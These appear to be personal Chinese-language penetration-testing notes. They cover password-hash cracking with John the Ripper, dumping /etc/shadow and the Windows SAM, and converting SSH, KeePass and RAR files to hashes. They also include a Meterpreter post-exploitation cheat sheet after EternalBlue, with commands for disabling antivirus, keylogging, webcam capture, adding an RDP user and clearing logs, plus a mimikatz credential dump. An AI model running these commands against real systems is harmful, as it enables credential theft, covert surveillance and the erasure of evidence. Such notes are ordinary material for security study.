 john test.txt --format=crypt

 john爆破出现Using default input encoding: UTF-8 No password hashes loaded (see FAQ)
 我以为是
 >在Vim中直接进行转换文件编码,比如将一个文件转换成utf-8格式  
`:set fileencoding=utf-8`
查看文件格式  
`:set fileformat?`
设置文件格式为 unix  
`:set fileformat=unix`

结果不是
 出现这个提示不是说明破解失败了，而是这个hash以前被你破解过，可以使用以下命令查看破解出的密码是什么。
使用下面这条命令即可解决
john --show password.txt

msf永恒之蓝命令执行后：
hashdump得到的值拿到最后32位字母数字组合可以在下图,注意类型是NTLM
![[Pasted image 20240318142344.png]]

![[Pasted image 20240318114658.png]]

unshadow命令基本上会结合/etc/passwd的数据和/etc/shadow的数据，创建1个含有用户名和密码详细信息的文件
unshadow /etc/passwd /etc/shadow > shadow

Windows的登录密码的hash值保存在SAM文件中，SAM是“security account manager”的首字母缩写。通常，它位于

```
  C:\windows\system32\config\SAM
```
SAM文件被Windows保护，不能直接读取，需借助工具，如[SAMInside](http://www.insidepro.com/download/saminside.zip)。找一台Windows7虚拟机，新建一个名为hashcat的管理员用户，并设置密码，在Windows7中下载并解压SAMInside后以管理员权限运行，然后点击File->Import Local Users vis Scheduler，如下图所示：
```css
reg save hklm\sam sam.hive 
reg save hklm\system system.hive
```
```css
samdump2 system.hive sam.hive > hash.txt
```
```bash
john -format=NT hash.txt  #破解,使用john自带的密码字典
john --show -format=NT hash.txt    #查看破解结果
```

![[Pasted image 20240318155653.png]]

```
ssh2john ~/.ssh/id_rsa > id_rsa.hash
```

```
keepass2john newdb.kdb > newdb.kdb.hash
```

```
rar2john encrypted.rar > encrypted.rar.hash
```

>[!ips]
后渗透阶段:
在meterpreter > 中我们可以使用以下的命令来实现对目标的操作：
sysinfo             #查看目标主机系统信息
run scraper         #查看目标主机详细信息
hashdump        #导出密码的哈希
load kiwi           #加载
ps                  #查看目标主机进程信息
pwd                 #查看目标当前目录(windows)
getlwd              #查看目标当前目录(Linux)
search -f *.jsp -d e:\                #搜索E盘中所有以.jsp为后缀的文件
download  e:\test.txt  /root          #将目标机的e:\test.txt文件下载到/root目录下
upload    /root/test.txt d:\test      #将/root/test.txt上传到目标机的 d:\test\ 目录下getpid              #查看当前Meterpreter Shell的进程
PIDmigrate 1384     #将当前Meterpreter Shell的进程迁移到PID为1384的进程上
idletime            #查看主机运行时间
getuid              #查看获取的当前权限
getsystem           #提权
run  killav         #关闭杀毒软件
screenshot          #截图
webcam_list         #查看目标主机的摄像头
webcam_snap         #拍照
webcam_stream       #开视频
execute  参数  -f 可执行文件   #执行可执行程序
run getgui -u hack -p 123    #创建hack用户，密码为123
run getgui -e                #开启远程桌面
keyscan_start                #开启键盘记录功能
keyscan_dump                 #显示捕捉到的键盘记录信息
keyscan_stop                 #停止键盘记录功能
uictl  disable  keyboard     #禁止目标使用键盘
uictl  enable   keyboard     #允许目标使用键盘
uictl  disable  mouse        #禁止目标使用鼠标
uictl  enable   mouse        #允许目标使用鼠标
load                         #使用扩展库
run				             #使用扩展库
clearev                       #清除日志

mimikatz
```python
##右键以管理员权限运行
##获取调试权限
privilege::debug
#在具有Isass进程的权限才可以抓到密码
##抓取密码
sekurlsa::logonpasswords

```

参考链接
[使用hashcat爆破各种hash | 若水斋](https://blog.werner.wiki/use-hashcat-crack-all-kinds-of-hash/)

[Windows 用户密码的加密方法与破解 | 国光](https://www.sqlsec.com/2019/11/winhash.html)

[永恒之蓝漏洞复现(ms17-010) - hkgan - 博客园](https://www.cnblogs.com/hkgan/p/17339860.html)

[SMBGhost\_RCE漏洞利用（MSF和CS联动） - FreeBuf网络安全行业门户](https://www.freebuf.com/vuls/277707.html)